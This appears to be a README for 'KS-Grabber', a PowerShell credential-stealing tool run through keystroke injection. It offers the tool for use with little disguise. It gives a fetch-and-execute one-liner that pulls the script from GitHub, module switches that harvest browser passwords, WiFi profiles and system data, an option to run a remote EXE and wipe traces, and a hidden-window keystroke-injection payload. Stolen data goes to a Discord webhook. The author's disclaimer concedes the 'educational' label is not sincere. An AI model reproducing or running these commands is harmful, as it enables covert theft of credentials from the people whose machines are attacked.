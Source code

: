 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookUrl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  <# Gather PC data #>
$gatherWifiProfiles = $true  <# Gather WiFi profiles #>
$gatherOpenPorts = $true  <# Gather open ports #>
$executeExe = $false  <# Execute and EXE File #>
$gatherInstalledSoftware = $true <# Gather installed softwares #>
$gatherBrowserPass = $true <# Gather passwords saved in browsers #>
$removeTraces = $true  <# Remove traces #>
```

You can also change some extra variables according to your preferences regarding the modules:

```powershell
$keyContentLabel = "Key Content"  <# Only if the system is not in en-us or en-br. #>
$exeUrl = "https://somerandomwebsite.lol/yourfile.exe" <# The EXE file referring to the executeExe function. #>
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookUrl` variable with your webhook:

```powershell
$hookUrl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookUrl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.
